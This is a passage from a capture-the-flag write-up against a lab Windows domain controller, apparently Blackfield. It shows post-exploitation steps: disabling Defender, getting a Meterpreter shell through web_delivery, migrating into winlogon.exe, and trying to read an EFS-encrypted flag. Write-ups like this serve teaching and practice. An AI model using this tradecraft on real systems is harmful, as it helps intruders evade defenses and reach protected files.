     fontdrvhost.exe                836 Console                    1      5,388 K
    fontdrvhost.exe                844 Services                   0      4,392 K
    svchost.exe                    852 Services                   0     22,084 K
    svchost.exe                    940 Services                   0     11,824 K
    svchost.exe                    988 Services                   0      9,636 K
    dwm.exe                        328 Console                    1     58,908 K
    svchost.exe                    456 Services                   0     12,296 K
    ...[snip]...
    

Session 0 is Services, and session 1 is Console. When I connect with WinRM, it
creates a `wsmprovhost.exe` process, which runs in session 0:

    
    
    *Evil-WinRM* PS C:\Users\Administrator\Documents> tasklist | findstr wsmprovhost
    wsmprovhost.exe               5324 Services                   0     85,644 K
    wsmprovhost.exe               5696 Services                   0    129,840 K
    wsmprovhost.exe               1776 Services                   0     70,056 K
    

I disabled defender, and got a Meterpreter shell (I used
`exploit/multi/script/web_delivery`, but there are a lot of ways) and migrated
to a process in session 1, `winlogon.exe`:

    
    
    meterpreter > getuid
    Server username: BLACKFIELD\Administrator
    meterpreter > migrate 528
    [*] Migrating from 2268 to 528...
    [*] Migration completed successfully.
    

Now I dropped to a shell and ran `cipher` again:

    
    
    C:\Users\Administrator\Desktop>cipher /c root.txt
    
     Listing C:\Users\Administrator\Desktop\
     New files added to this directory will not be encrypted.
    
    E root.txt
      Compatibility Level:
        Windows XP/Server 2003
    
      Users who can decrypt:
        BLACKFIELD\Administrator [Administrator(Administrator@BLACKFIELD)]
        Certificate thumbprint: 327F 9775 6FF7 110B 0564 E159 7DBC AF6E 7D2A AFD8 
    
      Recovery Certificates:
        BLACKFIELD\Administrator [Administrator(Administrator@BLACKFIELD)]
        Certificate thumbprint: 78CD 0031 7A9C 948A 9A66 0D6D BC32 0706 D193 476A 
    
      Key information cannot be retrieved.
    
    The specified file could not be decrypted.
    
    C:\Users\Administrator\Desktop>type root.txt
    Access is denied.
    